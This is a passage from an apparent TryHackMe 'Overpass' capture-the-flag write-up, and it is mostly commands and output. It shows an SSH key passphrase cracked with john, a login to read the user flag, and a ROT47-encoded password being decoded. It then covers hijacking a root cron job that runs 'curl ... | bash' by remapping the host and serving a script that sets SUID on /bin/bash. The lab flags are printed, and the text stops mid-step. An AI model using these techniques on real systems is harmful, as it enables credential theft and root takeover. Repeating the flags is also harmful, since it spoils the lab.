 ```bash
chmod 600 id_rsa
ssh -i id_rsa james@10.10.175.47
```
5. Convert the private to format readable by `john`:
```bash
$ ssh2john id_rsa > forjohn.txt
# if the default ssh2john crashes with 'AttributeError: module 'base64' has no attribute 'decodestring''
$ python ssh2john.py id_rsa > forjohn.txt
```
6. Crack the password with `john` and the `rockyou.txt` word list:
   * Assumed username is `james`
   * Cracked passphrase is `james13`
```bash
$ john --wordlist=$(pwd)/rockyou.txt forjohn.txt
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)
1g 0:00:00:02 DONE (2021-04-17 11:36) 0.4149g/s 5950Kp/s 5950Kc/s 5950KC/s  0 0 0..*7¡Vamos!
Session completed
```
1. Login via `ssh` and passphrase `james13` and retrieve `user.txt`:
```bash
$ ssh -i id_rsa james@<MACHINE_IP>
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
```

**Answer**: `thm{65c1aaf000506e56996822c6281e6bf7}`
## Escalate your privileges and get the flag in `root.txt`
1. Check for James' `.overpass` ROT47 hash:
```bash
$ cat .overpass 
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
```
2. Use [dCode's ROT-47 decoder/encoder](https://www.dcode.fr/rot-47-cipher) to crack Overpass' encryption:
```json
[
	{
		"name":"System",
		"pass":"saydrawnlyingpicture"
	}
]
```
3. The `root` user performs a custom CronJob:
```bash
james@overpass-prod:~$ cat /etc/crontab 
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```
4. `overpass.thm` is mapped to `127.0.0.1`:
```bash
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 overpass.thm
```
5. Modify `/etc/hosts` so `overpass.thm` is mapped to your TryHackMe IP address (green bubble on the navbar).
6. Make a new `buildscript.sh` on your local machine on `mkdir -p downloads/src/`:
```bash
#!/bin/bash
chmod +s /bin/bash
```
7. Start a web server on the same directory as your `downloads` directory:
```bash
```